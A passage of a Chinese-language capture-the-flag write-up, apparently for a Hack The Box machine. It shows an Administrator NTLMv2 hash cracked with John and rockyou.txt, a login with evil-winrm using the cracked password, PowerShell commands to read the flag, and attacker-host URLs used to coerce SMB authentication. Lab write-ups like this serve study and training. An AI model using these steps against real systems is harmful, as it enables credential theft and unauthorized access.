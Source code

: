```
Administrator::UNIKA:1122334455667788:2CEC4...
```

#### ![image-20250825030030548](C:\Users\童春林\AppData\Roaming\Typora\typora-user-images\image-20250825030030548.png)2.2.3 哈希破解过程

**使用John破解**：

```bash
echo "Administrator::UNIKA..." > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![image-20250825030101792](C:\Users\童春林\AppData\Roaming\Typora\typora-user-images\image-20250825030101792.png)

![image-20250825030115448](C:\Users\童春林\AppData\Roaming\Typora\typora-user-images\image-20250825030115448.png)**破解结果**：

```
badminton        (Administrator)
```

### 2.3 权限提升与flag获取

**WinRM连接**：

```bash
evil-winrm -i 10.129.132.84 -u Administrator -p badminto
```

**![image-20250825030153436](C:\Users\童春林\AppData\Roaming\Typora\typora-user-images\image-20250825030153436.png)文件系统遍历**：

powershell 最后的文件遍历实际上需要一定的过程

```powershell
# 查看用户目录
Get-ChildItem C:\Users

# 读取flag文件
Get-Content C:\Users\mike\Desktop\flag.txt
```

### ![image-20250825030212027](C:\Users\童春林\AppData\Roaming\Typora\typora-user-images\image-20250825030212027.png)2.4 复现过程中的探索方向

#### 2.4.1 替代利用方法探索

**多种协议测试**：

- HTTP协议：`http://10.10.14.6/test`
- FTP协议：`ftp://10.10.14.6/test`
- SMB协议：`//10.10.14.6/test`（最有效）

**不同响应方式**：
